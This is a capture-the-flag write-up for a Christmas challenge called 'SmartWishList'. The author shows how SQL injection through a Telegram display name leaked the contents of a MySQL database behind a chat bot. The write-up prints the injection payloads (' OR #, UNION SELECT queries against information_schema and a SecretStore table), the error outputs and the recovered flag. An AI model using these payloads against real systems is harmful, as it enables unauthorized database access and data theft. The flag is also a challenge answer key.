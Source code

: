 # Day 12: SmartWishList

Santa's being really innovative this year!

Send your wishes directly over your favorite messenger (telegram): @smartwishlist_bot

### Description

In order to participate on this challenge you had to have a Telegram account to be able to chat with the bot.

The wishlist bot supported few commands to manage your wishlist.

![about.png](files/about.png "about")

You could add a new wish, remove one or let him to list all the wishes on your list.

### Solution

This challenge was the real fun!

I started to play with those commands to figure out what was going on. At some point I had an idea to send some really long wish to break things.

> **pjslf**  
> /addwish aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  
>
> **Santa's Smart Wishlist**  
> (1406, "Data too long for column 'wish' at row 125")

Bingo! This was a proof that the bot ran on top of MySQL database - an obvious hint to SQLi. After countless unsuccessful attempts to find some working injection point in bot's commands there was the last option left. It had to be the Telegram account's name.

To prove my hypothesis I tried to break the SQL query to get a syntax error. I changed my account name to `' OR #` and requested bot to list my wishes.

> **' OR #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1")

It worked well! Now was the time to look around.

> **' UNION SELECT 'db', database() #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> db - smartwishlist

To send longer queries I had to split them in half and use both first and last name which then got concatenated.

> **' UNION SELECT 'col', column_name FROM information_schema.columns WHERE table_name = 'SecretStore' #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> col - flag

Now I had all the information needed to simply pick up the flag from the database.

> **' UNION SELECT 'flag', flag FROM SecretStore #**  
> /showwishes  
>
> **Santa's Smart Wishlist**  
> flag - HV18-M4k3-S0m3-R34L-N1c3-W15h

Here is a conversation screenshot.

![flag.png](files/flag.png "flag")

And here is the flag.

```
HV18-M4k3-S0m3-R34L-N1c3-W15h
```

